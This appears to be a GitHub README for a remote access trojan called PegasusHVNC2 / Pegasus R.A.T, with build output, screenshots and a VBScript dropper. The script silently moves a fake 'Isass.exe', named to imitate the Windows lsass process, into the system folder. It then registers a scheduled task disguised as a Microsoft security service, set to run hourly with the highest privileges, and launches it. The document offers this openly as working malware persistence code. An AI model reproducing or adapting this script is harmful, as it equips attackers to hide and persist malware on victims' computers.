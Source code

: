 # PegasusHVNC2

![Screenshot_1](https://user-images.githubusercontent.com/1867768/164581897-d8b3750c-90e5-49b2-9ea5-35bd7f3d9f98.png)

[Except ones compiled from full source ;)]
https://streamable.com/ghpv5y

Build started...
1>------ Build started: Project: Pegasus R.A.T, Configuration: Release Any CPU ------
1>  Pegasus R.A.T -> S:\iPwnNoobPony\Pegasus42\Source\Pegasus R.A.T\bin\Release\Pegasus R.A.T.exe
========== Build: 1 succeeded, 0 failed, 0 up-to-date, 0 skipped ==========

![badpony](https://user-images.githubusercontent.com/1867768/164579605-c4a11e62-87d5-48eb-bd95-f2dd976ac840.png)
```
on error resume next
set o=createobject("wscript.shell")
'f=o.ExpandEnvironmentStrings("%appdata%\Pantheon")
f=o.ExpandEnvironmentStrings("%appdata%")
c = "cmd /c md " & f 
'o.run c,0,1
WScript.Sleep(1000)
'c = "cmd /c move " & chr(34) & f & "\..\Isass.exe" & chr(34) & " " & chr(34) & f & chr(34)
c = "cmd /c move " & chr(34) & f & "\Isass.exe" & chr(34) & " " & chr(34) & "C:\windows\syswow64" & chr(34)
o.run c,0,1
'c = "schtasks /create /f /tn " & chr(34) & "OneDrive.{7d01bf11-6e05-4dfd-8936-9366c7d70b4d}" & chr(34)
c = "schtasks /create /f /tn " & chr(34) & "Microsoft\Windows\Security\SAMService" & chr(34)
c = c & " /sc hourly /rl highest /tr " & chr(34) & "c:\windows\syswow64\Isass.exe" & chr(34)
o.run c,0,1
Wscript.Sleep(2000)
o.run "schtasks /run /tn " & chr(34) & "Microsoft\Windows\Security\SAMService" & chr(34),0,0
```

Keep up the good work ^^

![lol](https://user-images.githubusercontent.com/1867768/163475489-3408e8ac-d47d-4648-9329-caf9790674dd.png)
![1](https://user-images.githubusercontent.com/1867768/164018731-957cbd11-6777-4ba9-8bb9-ce190be2f0ac.png)
![2](https://user-images.githubusercontent.com/1867768/164018740-5a82aa39-c27f-4476-b535-c3a01a7cfbcc.png)
![3](https://user-images.githubusercontent.com/1867768/164018744-04966fbd-b5e7-4a8d-809a-98135a585df6.png)
![4](https://user-images.githubusercontent.com/1867768/164018747-f2e92ce9-ac78-45f6-b8b8-551ff637f5dc.png)
